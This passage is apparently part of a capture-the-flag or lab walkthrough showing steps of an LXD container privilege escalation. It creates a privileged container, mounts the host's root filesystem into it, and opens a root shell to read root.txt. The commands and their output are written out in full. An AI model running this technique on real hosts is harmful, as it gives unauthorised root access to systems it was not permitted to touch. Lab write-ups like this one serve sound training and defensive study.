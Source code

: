 4. run the image and mount the /root into the image

  ```
  john@exploitable:~$ lxc init myimage mycontainer -c security.privileged=true
  Creating mycontainer
  john@exploitable:~$ lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
  Device mydevice added to mycontainer
  ```

5. interact with the container

  ```
  john@exploitable:~$ lxc start mycontainer
  john@exploitable:~$ lxc exec mycontainer /bin/sh
  ~ # whoami
  root
  ~ #
  ```

6. Get the host file system

  LXD will mount our file system in the container
  We can find the host machine file system under /mnt/root.
  ```
  /mnt # ls
  root
  /mnt # cd root
  /mnt/root # ls
  bin             initrd.img      mnt             snap            var
  boot            initrd.img.old  opt             srv             vmlinuz
  cdrom           lib             proc            swap.img        vmlinuz.old
  dev             lib64           root            sys
  etc             lost+found      run             tmp
  home            media           sbin            usr
  /mnt/root # cd root
  /mnt/root/root # ls
  root.txt
  ```

